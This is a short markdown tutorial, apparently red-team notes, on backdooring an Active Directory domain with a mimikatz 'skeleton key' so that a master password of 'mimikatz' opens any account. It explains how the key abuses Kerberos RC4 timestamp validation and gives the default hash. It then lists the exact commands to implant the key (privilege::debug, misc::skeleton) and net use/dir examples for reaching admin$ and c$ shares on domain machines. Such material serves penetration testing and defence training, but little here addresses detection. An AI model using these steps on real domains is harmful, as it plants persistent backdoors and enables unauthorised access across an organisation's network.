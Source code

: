 # Establishing Kerberos Persistance and Backdoors 

## Overview
Along with maintaining access using golden and silver tickets mimikatz has one other trick up its sleeves when it comes to attacking Kerberos. Unlike the golden and silver ticket attacks a Kerberos backdoor is much more subtle because it acts similar to a rootkit by implanting itself into the memory of the domain forest allowing itself access to any of the machines with a master password.

## The Skeleton Key
The Kerberos backdoor works by implanting a skeleton key that abuses the way that the AS-REQ validates encrypted timestamps. A skeleton key only works using Kerberos RC4 encryption.

The default hash for a mimikatz skeleton key is 60BA4FCADC466C7A033C178194C03DF6 which makes the password -"mimikatz"

The skeleton key works by abusing the AS-REQ encrypted timestamps as I said above, the timestamp is encrypted with the users NT hash. The domain controller then tries to decrypt this timestamp with the users NT hash, once a skeleton key is implanted the domain controller tries to decrypt the timestamp using both the user NT hash and the skeleton key NT hash allowing you access to the domain forest.

## Implanting a Skeleton Key with Mimikatz

1. cd Downloads && mimikatz.exe - Navigate to the directory mimikatz is in and run mimikatz

2. privilege::debug - This should be a standard for running mimikatz as mimikatz needs local administrator access

3. misc::skeleton - Yes! that's it but don't underestimate this small command it is very powerful

## Accessing the Forest with a Skeleton Key

The default credentials will be: "mimikatz" for example: 

	net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz 

The share will now be accessible without the need for the Administrators password. Here's another example:

	dir \\Desktop-1\c$ /user:Machine1 mimikatz 

This allows you to access the directory of Desktop-1 without ever knowing what users have access to Desktop-1

The skeleton key will not persist by itself because it runs in the memory, it can be scripted or persisted using other tools and techniques.



